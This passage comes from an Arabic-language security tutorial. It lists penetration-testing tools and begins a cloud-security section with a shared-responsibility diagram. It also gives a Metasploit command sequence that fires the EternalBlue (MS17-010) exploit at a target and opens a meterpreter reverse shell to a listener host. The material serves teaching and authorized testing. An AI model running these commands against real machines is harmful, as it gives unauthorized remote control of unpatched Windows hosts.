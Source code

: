 ### 4. Common Penetration Testing Tools

**أ. Kali Linux Tools**
```
- Metasploit: إطار عمل الاختراق
- Burp Suite: اختبار تطبيقات الويب
- Wireshark: تحليل حركة الشبكة
- John the Ripper: كسر كلمات المرور
- Aircrack-ng: اختبار أمان WiFi
- Hashcat: كسر الهاشات
```

**ب. Metasploit Framework**
```bash
# تشغيل Metasploit
msfconsole

# البحث عن استغلال
search ms17-010

# استخدام استغلال
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.10
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.5
exploit
```

---

## الأمان السحابي (Cloud Security)

### 1. مبادئ أمان السحابة

#### نموذج المسؤولية المشتركة

```
┌─────────────────────────────────────────────┐
│        Customer Responsibility              │
│  ┌─────────────────────────────────────┐   │
│  │  Data                                │   │
│  │  Applications                        │   │
│  │  Access Management                   │   │
│  │  Operating System (IaaS)             │   │
│  └─────────────────────────────────────┘   │
└─────────────────────────────────────────────┘
┌─────────────────────────────────────────────┐
│        Provider Responsibility              │
│  ┌─────────────────────────────────────┐   │
│  │  Physical Security                   │   │
│  │  Network Infrastructure              │   │
│  │  Hypervisor                          │   │
│  │  Storage                             │   │
│  └─────────────────────────────────────┘   │
└─────────────────────────────────────────────┘
```
